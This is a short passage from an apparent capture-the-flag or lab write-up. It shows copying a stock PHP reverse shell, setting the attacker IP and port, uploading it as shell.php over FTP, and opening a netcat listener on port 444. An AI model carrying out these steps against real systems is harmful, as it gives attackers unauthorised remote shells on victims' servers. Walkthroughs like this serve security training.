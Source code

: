 We copy php-reverse-shell.php just ready from php webshells folder

```bash
cp /usr/share/webshells/php/php-reverse-shell.php .
```

and custom it using our IP and Port:

```bash
ano php-reverse-shell.php
```

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 10-51-58.png" alt=""><figcaption></figcaption></figure>

Rename it:

```bash
mv php-reverse-shell.php shell.php
```

and put in ftp folder via FTP:

<figure><img src=".gitbook/assets/Schermata del 2023-07-30 10-54-53.png" alt=""><figcaption></figcaption></figure>

and start netcat on the same reverse shell port (444):

```bash
nc -lvnp 444
```
